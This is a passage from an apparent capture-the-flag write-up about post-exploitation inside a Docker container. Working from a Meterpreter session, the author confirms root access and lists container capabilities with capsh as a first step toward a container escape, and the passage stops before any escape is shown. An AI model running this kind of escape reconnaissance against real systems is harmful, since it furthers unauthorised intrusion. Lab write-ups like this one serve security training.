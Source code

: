 # Docker

At this stage, we see we’re in a docker compose environment:

```zsh title="Msfconsole"
meterpreter > cat /proc/1/cgroup
12:pids:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
11:cpuset:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
10:hugetlb:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
9:devices:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
8:blkio:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
7:cpu,cpuacct:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
6:freezer:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
5:net_cls,net_prio:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
4:perf_event:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
3:rdma:/
2:memory:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
1:name=systemd:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
0::/system.slice/containerd.service
```

Let’s return to a shell:

```zsh title="Msfconsole"
meterpreter > shell
Process 203 created.
Channel 4 created.
```

We discover we are indeed root. The goal now is to get out of the docker compose environment:

```zsh
id
uid=0(root) gid=0(root) groups=0(root)
```

## Docker Escape

[Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation) suggests looking for capability-related vulnerabilities:

```zsh
capsh --print

Terminate channel 4? [y/N]  N                                                                                                                                               
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip                                                                                                                                         
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```
